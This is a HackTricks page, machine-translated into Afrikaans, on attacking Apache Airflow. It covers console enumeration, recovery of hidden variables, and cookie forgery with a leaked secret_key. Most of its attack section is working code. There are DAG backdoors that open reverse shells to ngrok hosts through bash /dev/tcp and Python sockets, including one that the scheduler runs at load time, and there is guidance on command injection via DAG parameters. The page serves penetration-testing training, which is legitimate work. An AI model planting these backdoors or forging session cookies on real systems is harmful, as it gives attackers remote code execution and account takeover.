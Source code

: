 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) dien as 'n platform vir **die orkestrering en skedulering van datapipelines of werksvloei**. Die term "orkestrering" in die konteks van datapipelines dui op die proses van rangskikking, koördinering en bestuur van komplekse dataverwerkingsvloei wat uit verskeie bronne ontstaan. Die primêre doel van hierdie georkestreerde datapipelines is om verwerkte en verbruikbare datastelle te verskaf. Hierdie datastelle word wyd gebruik deur 'n menigte toepassings, insluitend maar nie beperk tot besigheidsintelligensie-instrumente, datawetenskap en masjienleer modelle, wat almal fundamenteel is vir die funksionering van groot data toepassings.

Basies sal Apache Airflow jou toelaat om **die uitvoering van kode te skeduleer wanneer iets** (gebeurtenis, cron) **gebeur**.

### Local Lab

#### Docker-Compose

Jy kan die **docker-compose konfigurasie lêer van** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) gebruik om 'n volledige apache airflow docker omgewing te begin. (As jy op MacOS is, maak seker dat jy ten minste 6GB RAM aan die docker VM toeken).

#### Minikube

Een maklike manier om **apache airflow** te **hardloop is om dit met minikube** te hardloop:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Konfigurasie

Airflow mag **sensitiewe inligting** in sy konfigurasie stoor of jy kan swak konfigurasies in plek vind:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Voordat jy begin om Airflow aan te val, moet jy verstaan **hoe toestemmings werk**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Aanvalle

#### Web Konsol Enumerasie

As jy **toegang tot die webkonsol** het, mag jy in staat wees om sommige of al die volgende inligting te bekom:

* **Veranderlikes** (Pasgemaakte sensitiewe inligting mag hier gestoor wees)
* **Verbindings** (Pasgemaakte sensitiewe inligting mag hier gestoor wees)
* Toegang tot hulle in `http://<airflow>/connection/list/`
* [**Konfigurasie**](./#airflow-configuration) (Sensitiewe inligting soos die **`secret_key`** en wagwoorde mag hier gestoor wees)
* Lys **gebruikers & rolle**
* **Kode van elke DAG** (wat interessante inligting mag bevat)

#### Herwin Veranderlikes Waardes

Veranderlikes kan in Airflow gestoor word sodat die **DAGs** hul waardes kan **toegang**. Dit is soortgelyk aan geheime van ander platforms. As jy **genoeg toestemmings** het, kan jy hulle in die GUI in `http://<airflow>/variable/list/` toegang.\
Airflow sal standaard die waarde van die veranderlike in die GUI wys, egter, volgens [**hierdie**](https://marclamberti.com/blog/variables-with-apache-airflow/) is dit moontlik om 'n **lys van veranderlikes** in te stel waarvan die **waarde** as **sterretjies** in die **GUI** sal verskyn.

![](<../../.gitbook/assets/image (164).png>)

Egter, hierdie **waardes** kan steeds **herwin** word via **CLI** (jy moet DB toegang hê), **arbitraire DAG** uitvoering, **API** wat die veranderlikes eindpunt benader (die API moet geaktiveer wees), en **selfs die GUI self!**\
Om toegang tot daardie waardes vanaf die GUI te verkry, kies net die **veranderlikes** wat jy wil toegang en **klik op Aksies -> Eksporteer**.\
'n Ander manier is om 'n **bruteforce** op die **verborge waarde** uit te voer deur die **soekfiltering** totdat jy dit kry:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

As die **`expose_config`** konfigurasie op **Waar** gestel is, kan die **rol Gebruiker** en **bo** die **konfig in die web** lees. In hierdie konfig, verskyn die **`secret_key`**, wat beteken enige gebruiker met hierdie geldige kan **sy eie onderteken koekie skep om enige ander gebruikersrekening na te volg**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Agterdeur (RCE in Airflow werker)

As jy **skrywe toegang** het tot die plek waar die **DAGs gestoor word**, kan jy eenvoudig **een skep** wat vir jou 'n **omgekeerde skulp** sal stuur.\
Let daarop dat hierdie omgekeerde skulp binne 'n **airflow werker houer** uitgevoer gaan word:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE in Airflow scheduler)

As jy iets stel om **uitgevoer te word in die wortel van die kode**, op die oomblik van hierdie skrywe, sal dit **deur die skeduleerder uitgevoer word** na 'n paar sekondes nadat dit binne die DAG se gids geplaas is.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Skepping

As jy daarin slaag om 'n **masjien binne die DAG-kluster te kompromitteer**, kan jy nuwe **DAG-skripte** in die `dags/` gids skep en hulle sal **in die res van die masjiene** binne die DAG-kluster **gekopieer word**.

#### DAG Kode Inspuiting

Wanneer jy 'n DAG vanaf die GUI uitvoer, kan jy **argumente** aan dit **oorgee**.\
Daarom, as die DAG nie behoorlik gekodeer is nie, kan dit **kwulnerabel wees vir Opdrag Inspuiting.**\
Dit is wat in hierdie CVE gebeur het: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles wat jy moet weet om **te begin soek na opdrag inspuitings in DAGs** is dat **parameters** met die kode **`dag_run.conf.get("param_name")`** **toegang verkry**.

Boonop kan dieselfde kwesbaarheid voorkom met **veranderlikes** (let daarop dat jy met genoeg regte die **waarde van die veranderlikes** in die GUI kan **beheer**). Veranderlikes word **toegang verkry met**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
As hulle byvoorbeeld binne 'n bash-opdrag gebruik word, kan jy 'n opdraginjeksie uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
